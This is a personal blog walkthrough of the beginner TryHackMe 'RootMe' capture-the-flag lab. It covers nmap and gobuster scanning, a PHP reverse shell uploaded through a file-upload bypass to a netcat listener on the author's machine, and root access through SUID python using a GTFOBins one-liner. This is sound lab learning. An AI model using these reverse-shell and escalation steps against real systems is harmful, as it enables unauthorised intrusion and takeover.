 ```yaml
---
id: 4782
title: TryHackMe &#8211; RootMe
author: Mr Ash
type: "revision"
guid: https://mrash.co/?p=4782
url: "/?p=4782"
---
```


I’m still on the Complete Beginner learning path from TryHackMe, so this is my first venture outside into their library of CTF’s.

This is a beginner ‘easy’ game, their description reads *a CTF for beginners, can you root me?* If you’re unaware, root means top-level access, like super admin or master-of-everything.

When you gain root-level access, you own that machine, so install, delete, copy or whatever else you want, it’s yours.

Let’s get started on RootMe

## Reconnaissance

First up, let’s *scan the machine, how many ports are open?*

```
<pre class="wp-block-code">```
$ nmap -A -p- <ip>

`CTRL+C` Took too long.

$ nmap -T4 -A <ip>

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

```
```

So, second `nmap` scan found `2` ports open, `ssh` &amp; `http`. Great, so that tells me it’s a web server, a non-secure one at that, and it’s able to have remote connection.

Next, *what version of Apache is running?*

Our scan has already pulled that information, `2.4.29`. I’m thinking maybe I could look this verion up and find known exploit.

*What service is running on port 22?*

Easy again, got that from scan, `ssh.`

*Find directories on the web server using the GoBuster tool. Hint: `gobuster dir -u <ip> -w WORDLIST_PATH`.*

Hm, this is a new tool, let’s first `man` it and see if I have it on `kali`.

```
<pre class="wp-block-code">```
$ man gobuster

// Not found.

$ sudo apt install gobuster

$ gobuster --help

$ apt-cache show gobuster

Directory/file & DNS busting tool written in Go Gobuster is a tool used to brute-force URIs including directories and files as well as DNS subdomains.

```
```

So it’s `ls` but for enurmeration? Cool.

After reading [kali tools](https://tools.kali.org/web-applications/gobuster), I’ve got a wordlist to use, let’s go!

```
<pre class="wp-block-code">```
$ gobuster dir -u 10.10.173.20 -w /usr/share/wordlists/dirb/common.txt

/.hta
/.htpasswd
/.htaccess
/css
/index.php
/js
***/panel - upload page.***
/server-status
/uploads

```
```

While that’s running, I remembered I can go to `<ip>` to view frontend of the website… Nothing there, just a game landing page.

Now the scan has finished, let’s try each page of the website via going `<ip>/<page>`. Normal stuff accept the `/panel` page. Strange file upload and gives a spanish error msg, a bit odd, I’ll remember this for later.

…or right now, w*hat is the hidden directory?* `/panel/`

## Getting A Shell

Okay, now it’s about shell access, i.e. stepping into the machine and gaining basic level access.

Let’s read the question, *find a form to upload and get a **reverse shell**, and find the flag.* Hint: *Search for “**file upload bypass**” and “**PHP reverse shell**“.*

Cool, first time using a reverse shell, still unsure what/how of this, but let’s learn by searching first recommendation.

File upload bypass, means, due to poor validation (secuirty) allows uploaded files to run by user or server.

Searching `PHP reverse shell` shows what looks like a [popular github page](https://github.com/pentestmonkey/php-reverse-shell). Let’s `git clone` it and take look.

```
<pre class="wp-block-code">```
$ mkrdir TryHackMe-rootme

$ git clone <https://github.com/pentestmonkey/php-reverse-shell.git> TryHackMe-rootme

$ nano php-reverse-shell.php

```
```

I’m taking the time to read the program (usually I don’t). It’s recommending to go to [pentestmonkey.net](http://pentestmonkey.net/) for help, looks like a great resource!

So `netcat` needs to be running to listen and ‘catch’ the reverse shell. Cool. Let’s setup `nc`, edit and upload the file

```
<pre class="wp-block-code">```
$ip = '10.4.33.98';  // CHANGE THIS
$port = 908;       // CHANGE THIS

$ sudo nc -v -n -l -p 908

```
```

After tinkering around, not sure why, but the file extension of the reverse shell file had to be changed from `.php` to `.php5` … my guess is this tells the website it’s PHP version 5 which it can work with? Not 100% sure.

I started cheating by the way from this [video](https://youtu.be/eDGI1RCkp8E). Just to get past this step.

Once the reverse shell was uploaded, I went to `<ip>/uploads/` to execute the file and `nc` picked it up, wow! My heart actually dropped a bit, like this is remote access from an uploaded file. WTH!

So I had to cheat a bit more on this one, annoying as I could’ve figured it out if I had more patience.

```
<pre class="wp-block-code">```
$ find / -type f -name user.txt 2>/dev/null

/var/ww/user.txt

$ cat /var/ww/user.txt

THM{*}

```
```

## Privilege Escalation

*Now that we have a shell, let’s escalate our privileges to root.*

Cool. Let’s go.

*Search for files with SUID permission, which file is weird?*

```
<pre class="wp-block-code">```
$ find / -user root -perm /4000 2>/dev/null

```
```

This is hard, I’m not sure what I’m looking for.

I used the input field from TryHackMe `/***/***/******` and just guessed which directory’s based on characters, `/usr/bin/python`.

Okay, next, *find a form to escalate your privileges, search for gtfobins.*

Found [gtfobins](https://gtfobins.github.io/), searched python and looked for SUID.

…time passes.

Look, I’ll be honest, I’ve got root and I have no idea what made it happen. I don’t understand python so it seems like magic right now. Anyway, here are the steps I took (or followed):

```
<pre class="wp-block-code">```
$ /bin/bash

python -c 'import pty;pty.spawn ("/bin/bash")'

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

```
```

Now I’ve got the `#` let’s search for the missing file.

```
<pre class="wp-block-code">```
$ find / -type f -name root.txt 2>/dev/null

/root/root.txt

$ cat /root/root.txt

THM{*}

```
```

Well, that’s the last flag, we did it! Thanks to [Yesspider](https://youtu.be/eDGI1RCkp8E) for their walkthrough video.

Looking back this is a good beginner game, even if it felt really hard and lead me to cheat, I use the term ‘cheating’ loosely as it’s still learning. If I get so stuck I want to give up, it’s better to look at a walkthrough than stop altogether.

I’m getting comfortable running some `nmap` which is great, and then sifting through information to find what I’m after.

I learnt about `gobuster`, a tool I want to use more! It felt great using a reverse shell and understanding the concept even if I didn’t understand 100% of what I was following along with. Something about setting up `nc` to listen and catch information felt amazing!

I loved used `find` one of the most basic commands which still havent clicked for me. Lastly using Python, now to be honest all of that went right over my head. But I’m using it, being more familiar, so it’s a start!

Hope you enjoyed this CTF Walkthrough.

If you have feedback, please send me a message via [Twitter](https://twitter.com/mrashleyball).

This is Day 6 of [\#100DaysOfHacking](https://mrash.co/100daysofhacking/), subscribe to the [newsletter](https://go.mrash.co/newsletter) to see the journey!

Happy Hacking.